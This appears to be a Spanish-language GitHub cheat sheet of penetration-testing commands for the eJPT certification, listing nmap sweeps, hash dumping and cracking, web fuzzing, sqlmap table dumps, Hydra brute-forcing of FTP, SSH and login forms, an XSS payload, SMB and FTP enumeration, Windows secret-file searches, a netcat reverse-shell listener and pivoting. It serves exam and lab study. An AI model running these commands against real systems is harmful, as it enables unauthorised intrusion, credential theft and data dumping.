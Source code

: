 # eJPT-Cheatsheet
Todos los comandos necesarios para aprobar el eJPT

Recursos que te pueden interesar:
- [eJPT - Review](https://hacknotes.github.io/certificaciones/eJPTReview/) 
- [Aprobar el eJPT a la primera](https://hacknotes.github.io/certificaciones/eJPTAprove/)
# Barrido de ping - Ping sweep
## Nmap
```sql
nmap -sn 10.10.10.0/24
```
## fping
```sql
fping -a -g 10.10.10.0/24 2>/dev/null
```
# Password cracking
## John
```python
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
## Online Tools
[CrackStation](https://crackstation.net/)
# Dump Hashes
## unshadow 
```sql
unshadow passwd shadow > hashes.txt
```
# Fuzzing
## Nmap
```python
nmap --script=http-enum -p80 10.10.14.16 -oN webScan
```
## wfuzz
```python
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ.php
```
## dirb
```sql
dirb http://10.10.15.12
```
## gobuster
```sql
gobuster dir -u 10.10.14.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```
# SQLMap
```sql
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname -T table_name --dump
```
# Hydra
```sql
hydra -v -l admin -P passlist.txt ftp://192.168.0.1
hydra -v -L userlist.txt -P passlist.txt ftp://192.168.0.1
hydra -v -l root -P passwords.txt -t 1 -u 10.10.14.10 ssh
hydra http://10.10.14.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect" -L userlist.txt -P passwordslist.txt
```
# XSS
```sql
<script>alert(xss)</script>
<h1>H1</h1>
```
# SMB
## Enumeración de SMB
```python
smbclient -L 10.10.14.12 -N
smbmap -H 10.10.14.12 -u 'null'
nmap --script=smb-vuln* -p445 10.10.14.15 -oN smbScan
smbmap -H 10.10.14.15 -R backups -u 'null'
```
## Acceso al recurso compartido **backups**
```sql
smbclient //10.10.14.15/backups
```
# FTP
## Enumeración de FTP
```python
nmap --script=ftp-anon -p21 10.10.14.12
ftp 10.10.14.12
cd ..
```
## FTP - Fuerza Bruta
```sql
hydra -l admin -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.1
```
# Enumeración de windows
```sql
dir /b/s "\*.conf*"
dir /b/s "\*.txt*"
dir /b/s "\*secret*"
route print
netstat -r
fsutil fsinfo drives
wmic logicaldisk get Caption,Description,providername
```
# Reverse Shell
## nc
```sql
nc -nlvp 443
```
## metasploit
```sql
msfconsole
```
# Post Explotación
## Pivoting
### Ip Route
```sql
ip route add 10.10.16.0/24 via 10.10.16.1 dev tap0
```
### Metasploit
```sql
run autoroute -s 10.10.16.0/24
```
## Wireshark
```sql
ip.addr==192.168.12
ip.src == 192.168.2.11
ip.dst == 192.168.2.15
```
